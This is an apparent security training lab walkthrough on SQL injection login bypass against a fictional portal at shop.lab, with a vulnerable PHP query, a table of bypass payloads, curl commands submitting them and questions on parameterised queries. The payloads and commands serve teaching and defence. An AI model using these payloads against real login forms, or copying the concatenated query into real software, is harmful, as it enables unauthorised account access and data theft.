

# Lab W2.1: Basic SQL Injection (Login Bypass)

## Before You Begin

- Confirm your VPN connection is active and you can reach the lab network.
- You should have completed all labs in Chapter W1 and be comfortable submitting HTTP requests.
- No valid credentials are provided: the objective is to bypass authentication entirely.
- A web browser and curl are sufficient for this lab.

## Scenario

ShopSecure, a local e-commerce startup, has hired you as a security consultant to perform a penetration test on their employee portal. The company's CTO, **Michael Rodriguez**, is concerned about the security of their authentication system and wants you to test it for vulnerabilities.

ShopSecure's employee portal is accessible at `shop.lab`. The login page requires employees to enter a username and password to access their dashboard. Michael suspects the authentication code might not be properly sanitising user input. Your job is to confirm whether the login form is vulnerable to SQL injection and, if so, demonstrate the impact by gaining unauthorised access.

## Your Objectives

- Understand how SQL injection exploits unsanitised input in login forms
- Test the login form for SQL injection by observing responses to special characters
- Craft a payload that bypasses the password check in the authentication query
- Gain unauthorised access to the admin account dashboard
- Record your findings and submit the flag

---

## Background: SQL Injection in Authentication

When a user submits a login form, the web application typically builds a SQL query to verify the credentials against a MySQL database. A vulnerable application constructs this query by directly concatenating the user's input into the SQL string.

**Vulnerable code pattern (PHP with MySQL):**

```php
$query = "SELECT * FROM users WHERE username = '" . $username . "' AND password = '" . $password . "'";
```

The variables `$username` and `$password` come directly from the POST form submission. If the user types a normal username and password, the query works as intended. But if the user types SQL syntax characters, particularly the single quote (`'`), those characters become part of the query itself.



**Why the single quote matters:**

The single quote closes the string delimiter in the SQL query. Everything after it is interpreted as SQL syntax rather than as part of the username string. The escape is the core of SQL injection: user input escaping its intended context and becoming executable code.

**Why the comment marker matters:**

MySQL uses `--` (two dashes followed by a space) or `#` as comment markers. Everything after the comment marker on that line is ignored by the database. By injecting `--` after the username, the attacker comments out the `AND password=` portion of the query, eliminating the password check entirely.

**Common authentication bypass payloads:**

| Payload               | How It Works                                       |
|-----------------------|----------------------------------------------------|
| `admin' -- `          | Closes string, comments out password check (note trailing space) |
| `admin'#`             | Same as above using MySQL comment syntax            |
| `' OR '1'='1`         | Makes the WHERE clause always true                 |
| `' OR '1'='1' -- `    | Always true, comments out remainder                |
| `admin' OR 1=1 -- `   | Targets admin, OR makes condition always true      |

## Tool Primer: Testing SQL Injection

**Using a web browser:**

The simplest approach is to type injection payloads directly into the login form fields. The browser submits the form as a POST request, and you observe whether the application logs you in or returns an error.

**Using curl:**

For more control over the request, use curl to submit POST form data:

```bash
# POST request with form data
curl -X POST http://shop.lab/login -d "username=admin' -- &password=anything" -v

# Follow redirects after login
curl -X POST http://shop.lab/login -d "username=admin' -- &password=anything" -v -L
```

**Key curl flags for form testing:**

| Flag               | Purpose                                      |
|--------------------|----------------------------------------------|
| `-X POST`          | Send a POST request                          |
| `-d <data>`        | Send form data in the request body           |
| `-v`               | Show full request and response               |
| `-L`               | Follow redirects (useful after successful login) |
| `--data-urlencode` | URL-encode special characters                |

**Using browser Developer Tools:**

Press F12 to open Developer Tools, then navigate to the Network tab. Submit the login form and inspect the request to see exactly what parameters are sent (username and password as POST data) and how the server responds.

---

## Walkthrough

### Step 1: Launch the Lab

Navigate to **Learning Paths** then **Web** then **Level 2**, click **Launch**, wait for **Running**, note the **target hostname** (`shop.lab`).

The lab runs two containers: the web application at `shop.lab` and a MySQL database server at `db.lab` (internal: you cannot access it directly). The PHP application connects to MySQL to verify login credentials.

### Step 2: Explore the Login Page

Open your browser and navigate to `http://shop.lab`. You should see the ShopSecure Employee Portal login page with username and password fields. The form submits via POST.

Before attempting any injection, observe the normal behaviour. Try a fake login:

- Username: `testuser`
- Password: `testpassword`

Note the error message. The baseline response for failed authentication is what you need to recognise so you can tell when an injection changes the behaviour.

### Step 3: Test for SQL Injection

Enter a single quote in the username field to test whether the input reaches the SQL query unsanitised:

- Username: `'`
- Password: `test`

Observe the response:

- **A SQL error message**: the application is vulnerable and does not handle errors gracefully. A raw SQL error is the clearest confirmation. The error may reference MySQL syntax.
- **A different error message** than the baseline: the single quote changed the query behaviour, suggesting vulnerability.
- **The same error as before**: the input may be sanitised, or the error is generic. Try other payloads.

### Step 4: Attempt Authentication Bypass

Try the most common bypass payload. In the username field, enter:

```
admin' --
```

Note the space after `--`. MySQL requires a space after the comment marker for it to be recognised.

Enter anything in the password field (e.g., `test`). Submit the form.

If the application redirects you to a dashboard page, the injection succeeded. The `'` closed the username string in the SQL query, and `-- ` commented out the password check. You are now logged in as the admin user.

### Step 5: Try Alternative Payloads

If the first payload did not work, try alternatives. MySQL supports `#` as a comment character (no trailing space needed):

**Using MySQL hash comment:**

- Username: `admin'#`
- Password: `anything`

**Using an always-true condition:**

- Username: `' OR '1'='1`
- Password: `' OR '1'='1`

**Using OR with comment:**

- Username: `admin' OR 1=1 -- `
- Password: `anything`

Test each payload and observe the response.

### Step 6: Explore the Dashboard

Once logged in, you should see the admin user's dashboard. The application displays the authenticated user's profile information pulled from the MySQL `users` table:

- **Username**: the account you injected into
- **Email**: the admin's email address
- **Role**: the user's role (admin)
- **User ID**: the database record ID

The dashboard also displays the **flag** associated with the admin account. The flag is stored in a dedicated column in the `users` table and is only visible after successful authentication. Record it.

The fact that you can see all this information demonstrates the full impact of the vulnerability: SQL injection gave you complete access to the admin account, including all personal data and the flag.

### Step 7: Test with curl (Optional)

For documentation purposes, reproduce the attack using curl.

!!! kali "Reproduce the login bypass with curl"
    ```bash
    curl -X POST http://shop.lab/login \
      --data-urlencode "username=admin' -- " \
      --data-urlencode "password=anything" \
      -v -L
    ```

The `--data-urlencode` flag ensures special characters (the single quote and spaces) are properly encoded in the HTTP POST body. The `-L` flag follows the redirect to the dashboard page after a successful login.

You can also try the MySQL-specific comment.

!!! kali "Bypass login with the MySQL hash comment"
    ```bash
    curl -X POST http://shop.lab/login \
      --data-urlencode "username=admin'#" \
      --data-urlencode "password=anything" \
      -v -L
    ```

### Record Your Findings

> **Target Hostname:** _______________
>
> **Baseline Response (invalid login):** _______________
>
> **SQL Error Test (single quote):** _______________
>
> | Payload Tested            | Response / Result              |
> |---------------------------|--------------------------------|
> | `admin' -- `              |                                |
> | `admin'#`                 |                                |
> | `' OR '1'='1`             |                                |
>
> **Successful Payload:** _______________
>
> **Dashboard Content:**
>
> | Field            | Value                           |
> |------------------|---------------------------------|
> | Username         |                                 |
> | Email            |                                 |
> | Role             |                                 |
> | User ID          |                                 |
> | Flag             |                                 |
>
> **How to submit:** enter the flag on the exercise page exactly as you recovered it, keeping the `OCR{...}` wrapper.
>
> **Flag:** `OCR{_______________}`

### Step 8: Record the Flag

Enter the flag displayed on the admin dashboard in the format `OCR{________}` on the lab submission page.

---

## Analysis Questions

**1. Why does the single quote character break the SQL query?**

> In SQL, single quotes delimit string values. When the PHP application inserts user input into a query like `WHERE username='$input'`, a single quote in the input closes the string delimiter prematurely. Everything after that quote is interpreted as SQL syntax rather than string content. The application intended the input to be data, but the quote turns it into code.

**2. How does a parameterised query (prepared statement) prevent SQL injection?**

> A parameterised query separates the SQL structure from the data. The query template is compiled first by MySQL: `SELECT * FROM users WHERE username=? AND password=?`. The user input is then bound to the placeholders as data values, never as SQL syntax. Even if the input contains single quotes or SQL keywords, the database treats the entire value as a string: it can never escape into the query structure. In PHP, this means using `$stmt->bind_param()` instead of string concatenation.

**3. The application has four user accounts in the database. What would happen if you used `' OR '1'='1` instead of `admin' -- `?**

> The `OR '1'='1'` payload makes the WHERE clause always true for every row. The database returns all four user records instead of just one. The application would likely log you in as the first user returned by the query, which may or may not be the admin account, depending on the database's row ordering. Targeting a specific username like `admin' -- ` is more precise because it returns only the admin record.

---

## Key Takeaways

- **SQL injection** occurs when user input is concatenated directly into SQL queries without sanitisation
- **The single quote** is the fundamental test character: it breaks string delimiters in SQL
- **`-- ` and `#`** are MySQL comment markers that eliminate the rest of the query (note the space after `--`)
- **The login form submits via POST**: injection payloads go in the POST body, not the URL
- **Authentication bypass** grants full dashboard access including profile data and the flag
- **Parameterised queries** (`bind_param`) are the definitive defence: they separate SQL structure from data
- **The flag is stored in the database** and displayed on the dashboard after successful authentication
